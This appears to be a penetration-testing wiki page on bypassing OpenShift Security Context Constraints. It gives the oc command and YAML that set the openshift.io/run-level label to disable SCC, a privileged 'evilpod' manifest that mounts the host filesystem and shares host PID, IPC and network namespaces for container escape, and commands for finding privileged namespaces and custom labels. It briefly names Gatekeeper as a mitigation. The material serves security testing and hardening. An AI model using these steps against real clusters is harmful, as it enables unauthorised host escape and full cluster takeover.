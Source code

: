 # Openshift - SCC bypass

**The original author of this page is** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privileged Namespaces

By default, SCC does not apply on following projects :

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

If you deploy pods within one of those namespaces, no SCC will be enforced, allowing for the deployment of privileged pods or mounting of the host file system.

## Namespace Label

There is a way to disable the SCC application on your pod according to RedHat documentation. You will need to have at least one of the following permission :

- Create a Namespace and Create a Pod on this Namespace
- Edit a Namespace and Create a Pod on this Namespace

```bash
$ oc auth can-i create namespaces
  yes

$ oc auth can-i patch namespaces
  yes
```

The specific label`openshift.io/run-level` enables users to circumvent SCCs for applications. As per RedHat documentation, when this label is utilized, no SCCs are enforced on all pods within that namespace, effectively removing any restrictions.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Add Label

To add the label in your namespace :

```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```

To create a namespace with the label through a YAML file:

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: evil
  labels:
    openshift.io/run-level: 0
```

Now, all new pods created on the namespace should not have any SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$                                            
</strong></code></pre>

In the absence of SCC, there are no restrictions on your pod definition. This means that a malicious pod can be easily created to escape onto the host system.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: evilpod
  labels:
    kubernetes.io/hostname: evilpod
spec:
  hostNetwork: true #Bind pod network to the host network
  hostPID: true #See host processes
  hostIPC: true #Access host inter processes
  containers:
    - name: evil
      image: MYIMAGE
      imagePullPolicy: IfNotPresent
      securityContext:
        privileged: true
        allowPrivilegeEscalation: true
      resources:
        limits:
          memory: 200Mi
        requests:
          cpu: 30m
          memory: 100Mi
      volumeMounts:
        - name: hostrootfs
          mountPath: /mnt
  volumes:
    - name: hostrootfs
      hostPath:
        path:
```

Now, it has become easier to escalate privileges to access the host system and subsequently take over the entire cluster, gaining 'cluster-admin' privileges. Look for **Node-Post Exploitation** part in the following page :

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Custom labels

Furthermore, based on the target setup, some custom labels / annotations may be used in the same way as the previous attack scenario. Even if it is not made for, labels could be used to give permissions, restrict or not a specific resource.

Try to look for custom labels if you can read some resources. Here a list of interesting resources :

- Pod
- Deployment
- Namespace
- Service
- Route

```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```

## List all privileged namespaces

```bash
$ oc get project -o yaml | grep 'run-level' -b5
```

## Advanced exploit

In OpenShift, as demonstrated earlier, having permission to deploy a pod in a namespace with the `openshift.io/run-level`label can lead to a straightforward takeover of the cluster. From a cluster settings perspective, this functionality **cannot be disabled**, as it is inherent to OpenShift's design.

However, mitigation measures like **Open Policy Agent GateKeeper** can prevent users from setting this label.

To bypass GateKeeper's rules and set this label to execute a cluster takeover, **attackers would need to identify alternative methods.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



